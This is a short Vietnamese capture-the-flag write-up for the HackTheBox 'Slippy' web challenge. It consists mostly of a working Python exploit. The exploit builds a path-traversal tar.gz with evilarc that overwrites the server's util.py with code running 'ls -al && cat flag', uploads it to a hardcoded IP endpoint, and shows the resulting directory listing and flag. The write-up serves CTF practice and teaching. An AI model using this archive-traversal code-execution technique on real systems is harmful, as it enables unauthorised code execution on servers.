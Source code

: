 # __Slippy__
</br> [source](https://github.com/magnetohvcs/CTF/raw/main/ctf-hackthebox/Uni%20CTF%202021%20Quals/src/web_slippy.zip)

 __tóm tắt__ : cố gắng upload file tar.gz để lấy flag, ta không thể dùng symlinks để cố gắng truy cập file flag mà ta sẽ dùng [công cụ này](https://github.com/ptoomey3/evilarc). 
 
 </br> Đầu tiên tải [evilary](https://github.com/ptoomey3/evilarc) và sau đó chạy đoạn mã này
 
 ```
 import requests, os, json, time
s = requests.session()

ip_port = '64.227.40.93:32528'
url = 'http://%s/api/unslippy'%ip_port
util = '''
import functools, tarfile, tempfile, os
from application import main

generate = lambda x: os.urandom(x).hex()

def extract_from_archive(file):
    return [os.popen('ls -al && cat flag').read()]
''' 

open('util.py','w').write(util)
path_evilary = '~/evilarc/evilarc.py'
os.system('rm flag.tar.gz ; python2 %s -d 3 -o u -f flag.tar.gz util.py'%path_evilary)
s.post(url,files={'file':open('flag.tar.gz','rb')})
time.sleep(2)
res = s.post(url,files={'file':open('flag.tar.gz','rb')}).text
print(json.loads(res)['list'][0])

# HTB{i_slipped_my_way_to_rce}
```
__output__
```
Creating flag.tar.gz containing ../../../util.py
total 28
drwxr-xr-x    1 root     root          4096 Nov 16 23:46 .
drwxr-xr-x    1 root     root          4096 Nov 23 06:25 ..
drwxr-xr-x    1 root     root          4096 Nov 23 06:25 application
-rw-r--r--    1 root     root            29 Nov 16 10:45 flag
-rw-r--r--    1 root     root            98 Nov 15 13:22 run.py
HTB{i_slipped_my_way_to_rce}
```
